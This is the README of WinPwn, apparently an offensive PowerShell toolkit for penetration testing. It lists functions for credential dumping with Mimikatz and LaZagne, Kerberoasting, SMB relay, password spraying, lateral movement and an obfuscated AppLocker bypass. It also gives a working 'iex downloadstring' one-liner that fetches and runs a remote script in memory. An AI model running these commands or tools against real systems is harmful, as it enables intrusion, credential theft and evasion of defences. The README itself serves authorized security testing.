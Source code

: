 # WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I often ran the same scripts one after the other to get information about the current system and/or the domain. To automate this process and for the proxy reason I wrote my own script with automatic proxy recognition and integration. 
The script is mostly based on well-known large other offensive security Powershell projects. They are loaded into RAM via IEX Downloadstring.

Yes it is not a C# and it may be flagged by antivirus solutions. Windows Defender for example blocks some of the known scripts/functions. Maybe someday a C# Version will follow.

Any suggestions, feedback and comments are welcome!

Just Import the Modules with:
`Import-Module .\WinPwn_v0.7.ps1` or 
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.7.ps1')`

Functions available after Import:
1) #### `WinPwn` -> Guides the user through all functions/Modules with simple questions.
2) #### `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
3) #### `sessionGopher` -> Executes Sessiongopher Asking you for parameters
4) #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz
5) #### `localreconmodules` -> Collects infosec relevant system Information, Executes passhunt, Get-Computerdetails and Just another Windows Privilege escalation script + Winspect
6) #### `JAWS` -> Just another Windows Privilege Escalation script
7) #### `domainreconmodules` -> Powerview function output gets stored on disk for review. A search for AD-Passwords in description fields is done. Unconstrained delegation systems/users are enumerated. An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. 
8) #### `Privescmodules` -> Executes different privesc scripts in memory (PowerUp Allchecks, Sherlock, GPPPasswords)
9) #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) 
10) #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. DomainPassword-Spray for new Credentials can also be used here.
11) #### `empirelauncher` -> Launch powershell empire oneliner on remote Systems
12) #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
13) #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
14) #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
15) #### `isadmin` -> Checks for local admin access on the local system
16) #### `Sharphound` -> Downloads Sharphound and collects Information for the Bloodhound DB
17) #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record and run Inveigh for mass hash gathering. (https://blog.netspi.com/exploiting-adidns/#wildcard)

The "oBEJHzXyARrq.exe"-Executable is an obfuscated Version of jaredhaights PSAttack Tool for Applocker/PS-Restriction Bypass (https://github.com/jaredhaight/PSAttack).

## TO-DO
- [x] Some obfuskation
- [] More obfuscation
- [] Proxy via PAC-File support
- [x] Get the scripts from my own creds repository (https://github.com/SecureThisShit/Creds) to be independent from changes in the original repositories
- [] More Recon/Exploitation functions
- [] msDS-AllowedToActOnBehalfOfOtherIdentity Ressource based constrained delegation

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)

## CREDITS

- [X] [Kevin-Robertson](https://github.com/Kevin-Robertson/) - Inveigh, Powermad, Invoke-TheHash
- [X] [Arvanaghi](https://github.com/Arvanaghi/ - 
- [X] [PowerShellMafia](https://github.com/PowerShellMafia/) - Powersploit
- [X] [Dionach](https://github.com/Dionach/) - PassHunt
- [X] [A-mIn3](https://github.com/A-mIn3/) - WINSpect
- [X] [411Hall](https://github.com/411Hall/) - JAWS
- [X] [sense-of-security](https://github.com/sense-of-security/) - ADrecon
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Sherlock
- [X] [AlessandroZ](https://github.com/AlessandroZ/) - LaZagne
- [X] [samratashok](https://github.com/samratashok/) - nishang
- [X] [leechristensen](https://github.com/leechristensen/) - Random Repo

## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
